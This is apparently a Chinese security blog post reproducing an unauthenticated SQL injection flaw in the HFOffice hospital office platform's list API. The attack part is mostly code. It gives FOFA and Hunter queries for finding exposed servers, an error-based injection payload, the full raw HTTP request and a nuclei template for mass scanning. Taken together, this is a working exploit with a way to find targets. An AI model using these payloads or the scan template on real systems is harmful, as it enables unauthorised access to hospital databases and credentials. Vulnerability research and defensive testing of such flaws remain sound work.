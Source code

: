 # 原创
：  【漏洞复现】SQL注入漏洞

# 【漏洞复现】SQL注入漏洞

### 漏洞描述

红帆HFOffice医微云是广州红帆科技有限公司研发的专注医疗行政办公管理，与企业微信全方位结合，提供协同办公、知识库、专家系统、BI等应用，进一步帮助医院移动办公落地，成就面向医院管理的“智慧管理”。平台list接口处存在SQL注入漏洞，未经身份认证的攻击者可通过该漏洞获取数据库敏感信息及凭证，最终可能导致服务器失陷。

### 资产收集

fofa：”HFOffice”<br/> hunter：web.body=”HFOffice”<br/>  

### 漏洞复现

##### payload：

```

/api/switch-value/list?sorts=%5B%7B%22Field%22:%221-CONVERT(VARCHAR(32),%20HASHBYTES(%27MD5%27,%20%271234%27),%202);%22%7D%5D&amp;conditions=%5B%5D&amp;_ZQA_ID=4dc296c6c69905a7
```

payload是对某一列数据进行md5加密，如果回显发现转换失败的话，就说明存在SQL注入漏洞。

##### 流量包

```
GET /api/switch-value/list?sorts=%5B%7B%22Field%22:%221-CONVERT(VARCHAR(32),%20HASHBYTES(%27MD5%27,%20%271234%27),%202);%22%7D%5D&amp;conditions=%5B%5D&amp;_ZQA_ID=4dc296c6c69905a7 HTTP/1.1
Host: xxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Tue, 02 Mar 2021 07:52:43 GMT
If-None-Match: "aa32739fd71:0"
```

### nuclei验证

##### nuclei-poc

```
id: HFOffice

info:
name: HFOffice-SQL
author: xxxx
severity: info
description: description
reference:
- https://
tags: tags

requests:
- raw:
- |+
GET /api/switch-value/list?sorts=%5B%7B%22Field%22:%221-CONVERT(VARCHAR(32),%20HASHBYTES(%27MD5%27,%20%271234%27),%202);%22%7D%5D&amp;conditions=%5B%5D&amp;_ZQA_ID=4dc296c6c69905a7 HTTP/1.1
Host: {{Hostname}}
```